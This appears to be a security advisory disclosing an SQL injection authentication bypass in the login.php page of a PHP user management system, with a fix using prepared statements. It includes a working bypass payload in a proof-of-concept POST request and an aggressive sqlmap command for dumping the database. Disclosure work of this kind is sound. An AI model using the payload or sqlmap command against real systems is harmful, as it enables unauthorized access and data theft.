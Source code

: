 #  Authentication Bypass via SQL Injection in `login.php` Using `uemail` and `password` POST Parameters in User Registration & Login and User Management System With Admin Panel ≤ v3.3

👨‍💻 **BUG Author:**  
4m3rr0r

📦 **Product Information:**  
- **Vendor Homepage:** https://phpgurukul.com  
- **Software Link:** [User Registration System](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)  
- **Affected Version:** <= 3.3  
- **Software Name:** User Registration & Login and User Management System With Admin Panel  


---

## 🛠 **Vulnerability Details**

### 🧨 **Vulnerability Type**
SQL Injection (CWE-89)

### 🧬 **Root Cause**
User-supplied input is directly embedded into a SQL query without proper sanitization or use of prepared statements.

```php
$ret = mysqli_query($con,"SELECT id,fname FROM users WHERE email='$useremail' and password='$dec_password'");
```

### ⚠️ **Impact**
- **Authentication Bypass**
- **Access to User Data**
- **Database Dumping**
- **Potential Remote Code Execution (via stacked queries if enabled)**

---

## 📋 **Description**
The login form in `login.php` accepts `uemail` and `password` via POST. The input is used unsafely in an SQL query, leading to a classic SQL Injection vulnerability. An attacker can bypass login authentication or dump the entire database using automated tools like `sqlmap`.

---

## 🔬 **Proof of Concept**

**URL:**  
`http://<target>/loginsystem/login.php`

**PoC Request:**
```http
POST /loginsystem/login.php HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded

uemail=test' OR '1'='1&password=irrelevant&login=Login
```

**sqlmap Usage:**
```bash
sqlmap -u "http://<target>/loginsystem/login.php" \
--data="uemail=test&password=test&login=Login" \
--risk=3 --level=5 --batch
```
![sqlmap](./Images/2025-07-11_00-06.png)


**Injection Types Found:**
- Boolean-based blind
- Time-based blind

---

## 🛡 **Suggested Remediation**
Use **prepared statements** or **parameterized queries** to safely handle user input.

✅ Example Fix:
```php
$stmt = $con->prepare("SELECT id, fname FROM users WHERE email = ? AND password = ?");
$stmt->bind_param("ss", $useremail, $password);
$stmt->execute();
```

---

## 🔐 **Security Recommendations**
- Apply input validation and output encoding.
- Disable display of detailed SQL errors.
- Limit database privileges for web application users.
- Use Web Application Firewall (WAF).

---

## 📚 **References**
- https://owasp.org/www-community/attacks/SQL_Injection  
